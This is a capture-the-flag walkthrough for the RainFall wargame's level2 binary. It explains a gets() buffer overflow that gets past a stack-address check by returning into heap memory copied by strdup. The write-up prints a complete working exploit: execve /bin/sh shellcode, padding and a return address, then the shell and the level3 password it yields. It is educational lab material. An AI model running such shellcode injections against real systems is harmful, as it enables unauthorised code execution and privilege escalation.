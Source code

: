 # Level3

## Objective

The goal of Level 3 is to escalate from `level2` to `level3` by exploiting a buffer overflow vulnerability in the `level2` binary. By the end, you should be able to retrieve the password for `level3`.

---

## Step 1: Examine the Binary

After switching to `level2`:

```bash
level2@RainFall:~$ ls
level2
```

Running the binary with some test input:

```bash
level2@RainFall:~$ ./level2
bjr
level2@RainFall:~$ ./level2
blablibloublu
level2@RainFall:~$
```

> **Observation**: The program take an input and quit, suggesting a **buffer overflow** ??.

---

## Step 2: Investigate the Code Behavior

By disassembling the main we find a function called `p()`, using again the disass cmd we find that the function uses `gets()` to read user input, which means there's a overflow vulnerability.

```bash
Dump of assembler code for function main:
    0x08048545 <+6>:     call   0x80484d4 <p>
Dump of assembler code for function p:
    0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```

But here's the problem, the stack isn't usable this time to overflow.
<+39> - <+44> : Execute a logical AND on eax then compare it to "0xb0000000". 
This check is made to be sure we don't overwrite the return address to an address on the stack.

```bash
Dump of assembler code for function p:
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
```

The point is to use a different way to override... Maybe the HEAP ?
The Heap overflow exists and needs a malloc to be executed. We're lucky we found with ltrace a `strdup()` using a malloc.
Everything given to the `strdup()` is stored thanks to the malloc directly to the heap. The whole point here is to give `strdup()` a shellcode to execute with the syscall 
execve directly inside !

---

## Step 3: Find the Offset

We need to determine at which point our input overwrites the saved return address.

### 3.1 Using a Pattern

```bash
level2@RainFall:~$ gdb ./level2
(gdb) run $(python -c '"Aa0Aa1Aa2..."')
```

When the program crashes, we check the value of `EIP`:

```bash
(gdb) info registers eip
eip            0x37634136
```

Now we find the exact offset:

in ASCII translate to 0x36 0x41 0x63 0x37 meaning 6Ac7 here.

> The return address is overwritten after **80 bytes**.

---

## Step 4: So what's the expected input?

To exploit this binary, we provide three parts in our input:

1. **Shellcode** – a small sequence of instructions that executes `/bin/sh`.
2. **Padding** – filler bytes (`"A" * 59` here) to reach the saved return address on the stack.
3. **Return address** – overwritten with `0x0804a008`, which points to the buffer where our shellcode is stored.

When the function returns, execution jumps into our injected shellcode, giving us a shell.

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "Q" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

---

We successfully executed `get_shell()` and obtained a shell as `level3`.

---

**End of Level 3 Walkthrough**



